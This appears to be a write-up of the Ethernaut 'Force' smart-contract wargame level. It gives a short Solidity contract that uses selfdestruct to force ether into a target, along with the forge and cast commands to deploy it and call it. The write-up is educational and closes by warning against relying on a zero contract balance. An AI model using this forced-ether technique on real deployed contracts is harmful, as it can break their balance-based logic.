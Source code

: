 ## Force Level Outline

**Difficulty : 5/10**

Some contracts will simply not take your money ¯\_(ツ)_/¯

The goal of this level is to make the balance of the contract greater than zero.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0x22699e6AdD7159C3C385bf4d7e1C647ddB3a99ea)

## Solution
We can call the selfdestruct function (which takes an address as a parameter) to force send all remaining ether in this contract to the level address.

### Walkthrough

1. create a new [forge project](https://book.getfoundry.sh/projects/creating-a-new-project.html) with the following contract in `src` 
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Contract {
    address payable target;

    constructor(address payable _target) {
        target = _target;
    }

    function explode() public payable {
        selfdestruct(target);
    }
}
```

2. deploy our new contract
```console
forge create src/Contract.sol:Contract --constructor-args $LEVEL_ADDRESS --private-key  $PRIVATE_KEY
```

3. call our newly deployed contract 
```console
cast send $DEPLOYED_ADDRESS "explode()" --value 0.0001ether --private-key=$PRIVATE_KEY 
```
> Replace $DEPLOYED_ADDRESS with the address of your deployed contract

## Further Reading
As seen from above, it is important not to count on the invariant `address(this).balance == 0` for any contract logic.
